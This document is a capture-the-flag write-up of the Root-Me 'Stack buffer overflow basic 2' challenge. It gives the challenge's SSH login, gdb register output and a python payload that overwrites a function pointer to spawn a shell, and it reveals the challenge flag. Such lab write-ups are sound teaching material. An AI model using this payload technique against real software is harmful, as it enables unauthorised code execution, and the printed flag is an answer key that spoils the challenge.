 # ELF x86 - Stack buffer overflow basic 2
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-2
```
Pwn the binary, read the flag in .passwd.

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch15@challenge02.root-me.org  
Username	app-systeme-ch15
Password	app-systeme-ch15
```
Like [ELF x86 - Stack buffer overflow basic 1](https://github.com/galbarak4/RootMe-Challenges/tree/master/System/ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%201), there is a _buf_ variable (128 bytes).
But now there is a function pointer, _func_. Again no (serious) boundary check, so one can overflow the _buf_ variable and set the _func_ pointer to point to whatever he needs.<br>

First, let's verify that 132 bytes are enough for overwriting the _func_ pointer:
```gdb
(gdb) run < <(python -c "print 'A'*128+'DDDD'")
Starting program: /challenge/app-systeme/ch15/ch15 < <(python -c "print 'A'*128+'DDDD'")

Breakpoint 4, 0x080484c7 in main ()
(gdb) info registers
eax            0x44444444	1145324612
ecx            0xbffffafc	-1073743108
edx            0xb7fd18a4	-1208149852
ebx            0xb7fd0000	-1208156160
esp            0xbffffae0	0xbffffae0
ebp            0xbffffb88	0xbffffb88
esi            0x0	0
edi            0x0	0
eip            0x80484c7	0x80484c7 <main+59>
eflags         0x286	[ PF SF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

As you may notice, the **eax** register set to "DDDD", right before the instruction ```call   *%eax```.<br>
Now, all left to do is change the "DDDD" to the **shell** function, and the program would call it:
```sh
app-systeme-ch15@challenge02:~$ cat <(python -c "print 'A'*128+'\x64\x84\x04\x08'") - | ./ch15
id
uid=1115(app-systeme-ch15) gid=1115(app-systeme-ch15) euid=1215(app-systeme-ch15-cracked) groups=1215(app-systeme-ch15-cracked),100(users),1115(app-systeme-ch15)
cat .passwd
B33r1sSoG0oD4y0urBr4iN
```
